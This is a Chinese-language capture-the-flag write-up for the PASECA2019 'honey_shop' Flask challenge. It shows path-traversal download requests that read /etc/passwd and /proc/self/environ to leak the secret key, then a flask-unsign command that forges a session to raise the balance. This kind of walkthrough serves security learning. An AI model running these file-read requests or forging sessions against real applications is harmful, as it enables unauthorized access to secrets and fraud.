 # \[PASECA2019]honey\_shop

## \[PASECA2019]honey\_shop

## 考点

* LFI
* 任意文件下载
* Flask伪造session

## wp

提示有1336块钱，买flag需要1337块钱。

发现存在session内容如下

```
eyJiYWxhbmNlIjoxMzM2LCJwdXJjaGFzZXMiOltdfQ.YmkaXQ.fruZujDjSk6Qq1MSDRQGKuX8NVw
```

flask-unsign解码一下，得到`{'balance': 1336, 'purchases': []}`，看来需要获取secret\_key修改session来购买flag

试了一下，整个页面除了购买外，只有图片可以点

![](<../../.gitbook/assets/image (23) (1).png>)

尝试任意文件下载，发现/download?image=../../etc/passwd可以下载文件

![](<../../.gitbook/assets/image (35) (1).png>)

访问/download?image=../../proc/self/cmdline，得到运行目录app/app.py

访问/download?image=../../proc/self/environ得到SECRET\_KEY=eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F

![](<../../.gitbook/assets/image (4).png>)

重新加密session，`flask-unsign.exe --secret "eiYzH7ck0Pta8ghUGYRRpD8LtNjw5TE2ssJ1BL0F" --sign --cookie "{'balance': 2000, 'purchases': []}"`，得到`eyJiYWxhbmNlIjoyMDAwLCJwdXJjaGFzZXMiOltdfQ.YmkdOg.P80Or5syU9nQrh8nURtyyqinVUY`

修改session购买flag即可
